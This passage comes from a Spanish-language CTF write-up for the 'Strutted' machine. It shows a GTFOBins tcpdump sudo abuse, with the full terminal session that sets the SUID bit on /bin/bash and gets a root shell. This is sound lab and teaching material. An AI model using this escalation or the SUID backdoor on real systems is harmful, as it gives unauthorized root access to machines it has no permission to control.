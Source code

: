 Si buscamos acerca del abuso de `tcpdump`. En GTFOBins se nos comparte una forma de escalar nuestros privilegios al ejecutarlo con `sudo` 

![image-center](/assets/images/posts/strutted-tcpdump.png)
{: .align-center}

Para abusar de `tcpdump` tendremos que asignar una variable de entorno con el valor de un comando a ejecutar, en el ejemplo solamente estaríamos ejecutando `id`.

Creamos un archivo temporal y guardamos el valor del comando en él, luego lo usamos dentro del comando `tcpdump` para ejecutarlo con permisos elevados


## Root Time

En este caso el comando que ejecutaremos como `root` será asignar el bit `SUID` a la `bash`, así podremos ejecutarla como el propietario, o sea, `root`

~~~ bash
james@strutted:~$ COMMAND='chmod 4755 /bin/bash'
james@strutted:~$ TF=$(mktemp)
james@strutted:~$ echo "$COMMAND" > $TF
james@strutted:~$ chmod +x $TF
james@strutted:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
james@strutted:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
james@strutted:~$ bash -p
bash-5.1# whoami
root
~~~

Gracias por leer, espero te haya sido de ayuda, te dejo la cita del día...

> There are people who have money and people who are rich.
> — Coco Chanel
{: .notice--info}
